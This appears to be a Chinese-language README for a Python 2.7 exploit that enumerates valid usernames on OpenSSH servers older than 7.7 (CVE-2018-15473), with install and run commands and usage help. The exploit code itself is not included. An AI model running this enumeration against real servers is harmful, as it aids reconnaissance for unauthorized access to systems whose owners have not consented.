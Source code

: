 # OpenSSH 用户名枚举漏洞 CVE-2018-15473
OpenSSH 版本小于 7.7 都存在 OpenSSH 用户名枚举漏洞，根据 [issue](https://github.com/Rhynorater/CVE-2018-15473-Exploit/issues/15) 对代码进行了修改使其能正常运行

Python2.7 可用 

使用方法 

先安装依赖  

```
pip install -r requirements.txt
```

然后

```
$ python sshUsernameEnumExploit.py --username www-data 1.2.3.4
```

更多使用方法见帮助  

```
▶ python sshUsernameEnumExploit.py
usage: sshUsernameEnumExploit.py [-h] [--port PORT] [--threads THREADS]
                                 [--outputFile OUTPUTFILE]
                                 [--outputFormat {list,json,csv}]
                                 (--username USERNAME | --userList USERLIST)
                                 hostname
```


此exploit来自：https://github.com/Rhynorater/CVE-2018-15473-Exploit
